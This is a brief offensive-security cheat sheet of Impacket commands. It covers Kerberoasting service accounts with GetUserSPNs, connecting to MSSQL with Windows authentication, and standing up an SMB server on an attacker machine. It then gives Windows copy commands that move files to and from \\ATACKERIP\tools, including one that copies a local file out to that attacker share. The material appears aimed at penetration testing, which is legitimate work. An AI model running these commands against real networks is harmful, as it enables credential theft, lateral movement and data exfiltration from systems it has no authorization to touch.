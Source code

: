 ###### Get Service Accounts
`impacket-GetUserSPNs test.local/fcasl:Passw0rd -dc-ip 192.168.1.56 -request` #spn
###### MSSQL Remote Client
`mssqlclient.py DOMAIN/User:'Password'@IP -windows-auth` #mssql
##### SMB Server 1
`impacket-smbserver -smb2support -user username -password password sharename $(pwd)`
##### SMB Server 2
`sudo python2 /usr/share/koadic/data/impacket/examples/smbserver.py tools .`
_after this on windows_
`copy \\ATACKERIP\tools\filename.exe .`
_or_
`copy filename.txt \\ATACKERIP\tools\filename.txt`